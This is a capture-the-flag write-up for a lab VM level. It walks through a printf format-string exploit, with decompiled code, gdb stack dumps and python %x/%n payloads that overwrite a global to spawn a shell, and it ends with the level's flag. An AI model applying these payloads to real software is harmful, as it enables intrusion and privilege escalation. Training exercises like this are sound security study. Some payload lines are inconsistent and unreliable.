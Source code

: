 ## Flag3 README: Finding Flag3

After connection on our vm with:
```bash
ssh level3@localhost -p 4242
```
We finded a binary program called level1.
if we decompile it we got this
```C
int v()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```
so we clearly understand that we need to change m to be equal to 64.
firstly we need to decompile it and search for m variable.
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
so we see that the decompilation didn't work
and it s more something like this
```C
result = RandomVariable
if randomvariable == 64 then we continue
```

And there is an known exploit with printf when you make in only print a variable like this :
```C
printf(foo)
```
to be safe he need to be like this :
```C
printf("%s", foo)
```

So let's exploit this.

The idea of the exploit is to print and mofify adress by adding sone %x and %n.
firstly we need to know when you are writing to the stack and at what adress.
So for exemple if if print  AAAA.%x.%x.%x.%x. this is the result :
AAAA.%x.%x.%x.%x.
AAAA.200.b7fd1ac0.b7ff37d0.41414120.
So lets decompile the stack after puting some AAAA inside it.

200 b7fd1ac0 b7ff37d0 is our sequence that are before in the stack. Let's verify it :
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x2e78252e	0x252e7825	0x78252e78
0xbffff530:	0xbf000a2e	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff540:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff588
0xbffff550:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff560:	0x00000098	0x0000000b	0x00000000	0x00000000
0xbffff570:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff580:	0x00000000	0xb7fe765d	0xb7e3ebaf	0x080482bb

So we can see that our sequence is locating in here :
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0


0xbffff520:	0x41414141 this is our 4 A

Then we will have to put the target adress (0x804988c) at the begining in the payload by replacing the AAAA it will be write in the stack at the positions 5 let's check it:

python -c 'print("\x8c\x98\x04\x08" + "%20x"*3 + "%n")'
<<< $(python -c 'print("\x8c\x98\x04\x08" + ".%x."*4)')
�.200..b7fd1ac0..b7ff37d0..804988c.

yep we can see that the last is our value puted in the front.

so now lets work with %n that will be writing the length of the string up to that point.

so what we need is to put a lot of charactere before it.And we know that the value we need to search is 64.
Si what will do is checking the value if we put not character then ading the caractere.

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

